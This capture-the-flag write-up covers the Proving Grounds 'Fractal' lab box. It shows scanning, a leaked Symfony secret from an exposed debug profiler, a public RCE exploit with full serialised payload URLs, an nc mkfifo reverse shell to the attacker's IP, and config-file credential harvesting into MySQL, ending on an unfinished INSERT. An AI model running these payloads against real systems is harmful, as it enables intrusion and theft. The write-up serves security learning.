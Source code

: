 ```yaml
---
layout: default
title: Fractal
parent: Proving Grounds Practice - Linux
nav_order: 2
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/fractal]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.232.233
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-21 23:43 EST
Nmap scan report for 192.168.232.233
Host is up (0.061s latency).
Not shown: 64453 closed tcp ports (reset), 1079 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/app_dev.php /app_dev.php/*
|_http-title: Welcome!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.21 seconds

```

# Enumeration

---

## 80 | HTTP

![index](../../../assets/images/ctfs/proving_grounds/fractal/index.png)

![robots](../../../assets/images/ctfs/proving_grounds/fractal/robots.png)

Open _/app_dev.php_ page and see the Symfony panel in the bottom corner.

It indicates that the box is running in "debug" mode and the "\_profiler" is subsequently exposed.

![debug](../../../assets/images/ctfs/proving_grounds/fractal/debug.png)

Clicking on the "Profiler token e4759b0" link opens the _\_profiler_ page

![profiler](../../../assets/images/ctfs/proving_grounds/fractal/profiler.png)

Reading the following article on exploiting the Symfony web framework I was able to locate an exploit path.

[Symfony Web Framework Vulnerabilities Article](https://infosecwriteups.com/how-i-was-able-to-find-multiple-vulnerabilities-of-a-symfony-web-framework-web-application-2b82cd5de144)

# Exploitation

---

The above referenced article indicates the _secret_ value can be obtained from the path _\_profiler/open?file=app/config/parameters.yml_

![secret](../../../assets/images/ctfs/proving_grounds/fractal/secret.png)

The following GitHub page has an exploit for Symfony web sites if the _secret_ value is known.

[Symfony Python Exploit](https://github.com/ambionics/symfony-exploits/blob/main/secret_fragment_exploit.py)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/fractal]
└─$ python3 fractal.py http://192.168.152.233/_fragment -s 48a8538e6260789558f0dfe29861c05b
The URL /_fragment returns 403, cool

Trying 4 mutations...
  (OK) sha256 48a8538e6260789558f0dfe29861c05b http://192.168.152.233/_fragment 404 http://192.168.152.233/_fragment?_path=&_hash=xlppwYRWrcB3p2x1aD%2Ftr4bIPxuO9iyfDirq4Rhhtm4%3D

Trying both RCE methods...
  Method 1: Success!

PHPINFO: http://192.168.152.233/_fragment?_path=_controller%3Dphpinfo%26what%3D-1&_hash=KmVEvFSwzOXxYTL%2Fs51GhobeilRrePdmLEDO%2FpWC5Zs%3D
RUN: fractal.py 'http://192.168.152.233/_fragment' --method 1 --secret '48a8538e6260789558f0dfe29861c05b' --algo 'sha256' --internal-url 'http://192.168.152.233/_fragment' --function phpinfo --parameters what:-1


```

![method2](../../../assets/images/ctfs/proving_grounds/fractal/method2.png)

Based on the exploit documentation we should be able to use "Method 2" to interact with the PHP web shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/fractal]
└─$ python fractal.py http://192.168.152.233/_fragment --internal-url http://192.168.152.233/_fragment --secret '48a8538e6260789558f0dfe29861c05b' --method 2 --function system --parameters 'id' --algo sha256http://192.168.152.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522id%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=RP7LAofV4fd4Y%2F2BfO1y0I4eAM2fEk70or%2FiQtRA3J0%3D


```

![id](../../../assets/images/ctfs/proving_grounds/fractal/id.png)

Run a reverse shell parameter with a _nc mkfifo_ reverse shell payload.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/fractal]
└─$ python fractal.py http://192.168.152.233/_fragment --internal-url http://192.168.152.233/_fragment --secret '48a8538e6260789558f0dfe29861c05b' --method 2 --function system --parameters 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.217 80 >/tmp/f' --algo sha256
http://192.168.152.233/_fragment?_path=_controller%3DSymfony%255CComponent%255CYaml%255CInline%253A%253Aparse%26value%3D%2521php%252Fobject%2BO%253A32%253A%2522Monolog%255CHandler%255CSyslogUdpHandler%2522%253A1%253A%257Bs%253A9%253A%2522%2500%252A%2500socket%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BO%253A29%253A%2522Monolog%255CHandler%255CBufferHandler%2522%253A7%253A%257Bs%253A10%253A%2522%2500%252A%2500handler%2522%253BN%253Bs%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A2%253A%2522-1%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257Ds%253A13%253A%2522%2500%252A%2500bufferSize%2522%253Bi%253A-1%253Bs%253A9%253A%2522%2500%252A%2500buffer%2522%253Ba%253A1%253A%257Bi%253A0%253Ba%253A2%253A%257Bi%253A0%253Bs%253A74%253A%2522rm%2B%252Ftmp%252Ff%253Bmkfifo%2B%252Ftmp%252Ff%253Bcat%2B%252Ftmp%252Ff%257Csh%2B-i%2B2%253E%25261%257Cnc%2B192.168.45.217%2B80%2B%253E%252Ftmp%252Ff%2522%253Bs%253A5%253A%2522level%2522%253BN%253B%257D%257Ds%253A8%253A%2522%2500%252A%2500level%2522%253BN%253Bs%253A14%253A%2522%2500%252A%2500initialized%2522%253Bb%253A1%253Bs%253A14%253A%2522%2500%252A%2500bufferLimit%2522%253Bi%253A-1%253Bs%253A13%253A%2522%2500%252A%2500processors%2522%253Ba%253A2%253A%257Bi%253A0%253Bs%253A7%253A%2522current%2522%253Bi%253A1%253Bs%253A6%253A%2522system%2522%253B%257D%257D%257D%26exceptionOnInvalidType%3D0%26objectSupport%3D1%26objectForMap%3D0%26references%3D%26flags%3D516&_hash=%2BSXRz2bzwQn2g2mRyfyjYTH7LxJh87Vo7QwSzYzi3PY%3D
```

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/fractal]
└─$ nc -nlvp 80
listening on [any] 80 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.152.233] 51146
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Run Linpeas.sh

Linpeas shows there is a MySQL service running on the loopback service.

![mysql](../../../assets/images/ctfs/proving_grounds/fractal/mysql.png)

![config](../../../assets/images/ctfs/proving_grounds/fractal/config.png)

![password](../../../assets/images/ctfs/proving_grounds/fractal/password.png)

## Search for string "password"

```bash
www-data@fractal:/etc$ grep -R "password" . 2>/dev/null

./proftpd/sql.conf:SQLConnectInfo proftpd@localhost proftpd protfpd_with_MYSQL_password

```

Connect to the _proftpd_ database

```bash
www-data@fractal:/var/www/html/web$ mysql -uproftpd -p
mysql -uproftpd -p
Enter password: protfpd_with_MYSQL_password

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| proftpd            |
+--------------------+
3 rows in set (0.06 sec)

mysql> use proftpd;
use proftpd;

```

[Article showing how to create generate Proftp DB password](https://medium.com/@nico26deo/how-to-set-up-proftpd-with-a-mysql-backend-on-ubuntu-c6f23a638caf)

![proftpd](../../../assets/images/ctfs/proving_grounds/fractal/proftpd.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ /bin/echo "{md5}"`/bin/echo -n "password" | openssl dgst -binary -md5 | openssl enc -base64`
{md5}X03MO1qnZdYdgyfeuILPmQ==

```

INSERT INTO ftpuser (userid,passwd,uid,gid,homedir,whell,count,accessed,modified) VALUES ()
